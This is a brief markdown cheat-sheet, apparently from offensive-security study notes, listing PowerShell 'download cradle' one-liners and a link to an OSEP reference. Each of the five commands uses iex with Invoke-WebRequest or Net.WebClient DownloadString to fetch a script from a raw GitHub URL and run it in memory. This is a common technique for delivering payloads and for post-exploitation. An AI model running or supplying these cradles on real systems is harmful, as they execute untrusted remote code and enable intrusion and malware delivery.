 # Run Script cradles

iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")

IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content

iex ((Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content)

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')

IEX ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content



# Download Cradle and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
